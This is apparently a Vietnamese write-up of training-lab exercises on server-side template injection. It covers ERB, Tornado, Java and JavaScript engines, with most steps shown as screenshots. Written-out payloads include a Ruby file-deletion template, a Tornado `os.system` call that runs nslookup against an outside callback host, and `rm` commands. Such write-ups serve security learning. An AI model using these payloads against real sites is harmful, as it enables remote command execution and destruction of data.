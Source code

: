 ![image](https://github.com/user-attachments/assets/7e64cc62-af5b-4352-8058-ea37de950a0b)

Đây là giao diện, hiện tại thì chưa thấy có gì:

![image](https://github.com/user-attachments/assets/83f29181-d186-4130-94b2-0c1b3582fb8e)

Khi ấn vào cái đầu tiên thì nó hiện ra Unfortunately this product is out of stock, còn cái khác vẫn ra thông tin:

![image](https://github.com/user-attachments/assets/6062dc78-1f1e-4312-a941-96733d25356c)

Và req đây:

![image](https://github.com/user-attachments/assets/b5219a65-535b-4833-986b-c25139be301e)

Sau khi fuzz nhanh qua message thì tôi thấy cái `<%=77*77%>` là nó tính ra được kết quả:

![image](https://github.com/user-attachments/assets/84d24c9b-786f-4405-9cac-073f62e7f67f)

Tôi hỏi chatgpt để lấy lệnh xóa file trong ERB template

![image](https://github.com/user-attachments/assets/d7afb287-cd43-4cd9-b156-163262e1f2e8)

![image](https://github.com/user-attachments/assets/becd0cc2-a85a-4e94-ba23-55aaca0a7cf3)

`<% File.delete("morale.txt")%>`

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/74e78801-b2e7-41dc-a95a-b8da70e57d17)

Giao diện sau khi đăng nhập với wiener đây:

![image](https://github.com/user-attachments/assets/b0571ab2-f8c2-4d2b-91fb-c330329758e0)

Đây là req sau khi chọn cái preferred name:

![image](https://github.com/user-attachments/assets/d634a163-3ab9-46ce-bf09-b43ffe25ccaf)

Do nó tên là blog-post-author-display nên tôi thử vào mấy cái blog post, để lại comment, và tính năng của cái đấy là sẽ hiển thị tên của tôi ở 3 dạng:

![image](https://github.com/user-attachments/assets/85c5f60c-d344-4c68-aa33-7a0eca17ebbf)

Nếu search cái Tornado template thì ra cái payload:

![image](https://github.com/user-attachments/assets/3c3d0ae9-c2fd-4cb6-bd6a-44e0143ed261)

Sau khi tôi chèn `{{77*77}}` thì ra kết quả `{{5929}}`, nó hoạt động:

![image](https://github.com/user-attachments/assets/90020b7b-3871-44d2-8656-9fb42f0d0a55)

Tôi chèn `{%import os%}{{os.system('nslookup oastify.com')}}` vào blog-post-author-display:

![image](https://github.com/user-attachments/assets/99fb986d-d40c-452e-8087-7af9b044b6a0)

Cái này có vẻ là do đang dùng trong mấy cái name các thứ kia thì tôi lại chạy nên nó xảy ra lỗi, thế nên tôi sửa thành `user.first_name}}{%import os%}{{os.system('nslookup oastify.com')}}` nhằm tạo hẳn 1 cái mới

![image](https://github.com/user-attachments/assets/aa06cb6c-4454-435e-aa88-21f7e8a478a0)

![image](https://github.com/user-attachments/assets/ae1520a2-c0aa-4f7c-abce-d9bbf98efeb7)

Đổi sang `rm morale.txt` là xong

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/aac6ee4c-de09-4681-b809-cdb110a2ff14)

Vào bài post thì có thể sửa được cái template:

![image](https://github.com/user-attachments/assets/aa0d55d3-be78-4dd7-8640-011d71aa4718)

Req đấy đây:

![image](https://github.com/user-attachments/assets/69f33089-6f31-4ee7-8652-12077da42c8d)

Do `${}` có nhiều loại nên không phải cái nào cũng được

![image](https://github.com/user-attachments/assets/78f87e68-e8bd-44e0-97e6-603837e7db98)

Sau 1 lúc mò payload ssti trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md) thì ra được cái `${77*77}`:

![image](https://github.com/user-attachments/assets/a0eae38a-5d50-459d-9da4-9340acc8add1)

Sau 1 lúc tìm payload trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), đến đoạn java thì được:

![image](https://github.com/user-attachments/assets/f2f0eb62-faca-4f33-af31-e932d1b3d9a1)

![image](https://github.com/user-attachments/assets/bcb6a021-85e6-4564-8db3-496f158eb00e)

Đổi sang xóa là xong

![image](https://github.com/user-attachments/assets/18c1380e-5120-4575-aedf-4449d84cb3b5)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/d7975839-9de2-4df6-b66d-501a7ef9b3ec)

Khi ấn view detail cái đầu tiên thì ra Unfortunately this product is out of stock:

![image](https://github.com/user-attachments/assets/bd87d20b-6c0e-43e9-a66c-825bb4823ced)

![image](https://github.com/user-attachments/assets/110714c6-70ba-4d6d-afbc-8df58760baea)

Tôi lấy bừa cái [wordlist](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt) trên mạng để chạy thì có 1 số cái gây ra lỗi:

![image](https://github.com/user-attachments/assets/41323ee5-8333-4011-b6e4-3f24687e2949)

Sau khi xác định được đây là javascript, tôi đi mày mò payload ở trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md) thì có cái này:

![image](https://github.com/user-attachments/assets/88448207-5c0f-4598-873b-56eb25b40ef1)

Encode url rồi ném vào message thì được:

![image](https://github.com/user-attachments/assets/5b526a05-3392-46f7-bc69-f973820ae06f)

Đổi sang rm là được:

![image](https://github.com/user-attachments/assets/f9aefd62-73f9-48c6-a5ee-8bbf45030e56)

<h1>---------------------------------------------------------</h1>
<br>










































